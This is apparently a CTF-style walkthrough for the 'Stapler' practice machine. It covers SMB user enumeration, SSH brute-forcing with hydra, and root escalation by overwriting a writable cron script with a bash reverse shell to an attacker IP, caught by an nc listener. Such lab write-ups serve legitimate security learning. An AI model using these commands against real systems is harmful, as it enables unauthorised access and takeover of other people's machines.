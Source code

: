 # Stapler - Walkthrough

## 🧗 Initial Foothold

### 🔍 1. Enumerate SMB Shares
- Used `enum4linux` to enumerate users and shares.
- Extracted a list of usernames.

### 🔐 2. Bruteforce SSH with `hydra`
- Used the usernames from `enum4linux`:
  ```bash
  hydra -L users.txt -p SHayslett ssh://<target-ip>
  ```
- Successfully found valid credentials:
  - **User:** `SHayslett`
  - **Password:** `SHayslett`

### ✅ 3. SSH Access
```bash
ssh SHayslett@<target-ip>
```
- Got an initial user shell.

---

## ⚙️ Privilege Escalation

### 🔍 1. Run `linpeas.sh`
- Discovered a suspicious, world-writable root-owned cron script:
  ```
  /usr/local/sbin/cron-logrotate.sh
  ```

### ✏️ 2. Overwrite `cron-logrotate.sh`
We had write access. Overwrote it with a reverse shell payload:

```bash
#!/bin/bash
/bin/bash -i >& /dev/tcp/192.168.45.179/80 0>&1
```

### 📡 3. Set up Listener
On attacker machine:
```bash
nc -lvnp 80
```

### 🧨 4. Got Root Shell
- Once the cron job executed, got a **root shell** back via reverse connection.

---

## 📦 Extra: MySQL Credentials

### 🔍 1. Search for Hardcoded Credentials
```bash
grep -RinI --color=always -e 'Simon' .
```

- Found a file referencing the user **Simon** and MySQL credentials.
- Credentials worked for MySQL root login.

### 🔑 2. MySQL Access
```bash
mysql -u root -p
```

- Found multiple password hashes.
- Cracked a few of them, but **none led to further access or privilege escalation**.

---

## 🧠 Notes

- This box can be **confusing and noisy** — lots of rabbit holes.
- Root privilege escalation via **cron + writable script** was the key.
- MySQL, cracked hashes, and user sprawl were **mostly distractions**.
